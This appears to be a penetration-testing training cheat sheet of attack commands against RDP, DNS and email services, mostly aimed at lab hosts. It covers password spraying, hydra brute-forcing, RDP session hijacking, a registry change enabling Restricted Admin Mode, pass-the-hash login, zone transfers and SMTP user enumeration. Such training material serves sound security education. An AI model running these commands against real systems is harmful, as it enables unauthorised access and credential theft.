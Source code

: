 ## Attacking RDP

|**Command**|**Description**|
|---|---|
|`crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`|Password spraying against the RDP service.|
|`hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`|Brute-forcing the RDP service.|
|`rdesktop -u admin -p password123 192.168.2.143`|Connect to the RDP service using `rdesktop` in Linux.|
|`tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`|Impersonate a user without its password.|
|`net start sessionhijack`|Execute the RDP session hijack.|
|`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`|Enable "Restricted Admin Mode" on the target Windows host.|
|`xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`|Use the Pass-The-Hash technique to login on the target host without a password.|

## Attacking DNS

|**Command**|**Description**|
|---|---|
|`dig AXFR @ns1.inlanefreight.htb inlanefreight.htb`|Perform an AXFR zone transfer attempt against a specific name server.|
|`subfinder -d inlanefreight.com -v`|Brute-forcing subdomains.|
|`host support.inlanefreight.com`|DNS lookup for the specified subdomain.|

## Attacking Email Services

|**Command**|**Description**|
|---|---|
|`host -t MX microsoft.com`|DNS lookup for mail servers for the specified domain.|
|`dig mx inlanefreight.com \| grep "MX" \| grep -v ";"`|DNS lookup for mail servers for the specified domain.|
|`host -t A mail1.inlanefreight.htb.`|DNS lookup of the IPv4 address for the specified subdomain.|
|`telnet 10.10.110.20 25`|Connect to the SMTP server.|
|`smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`|SMTP user enumeration using the RCPT command against the specified host.|
|`python3 o365spray.py --validate --domain msplaintext.xyz`|Verify the usage of Office365 for the specified domain.|
|`python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`|Enumerate existing users using Office365 on the specified domain.|
|`python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`|Password spraying against a list of users that use Office365 for the specified domain.|
|`hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`|Brute-forcing the POP3 service.|
|`swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213`|Testing the SMTP service for the open-relay vulnerability.|

# Questions & Answers
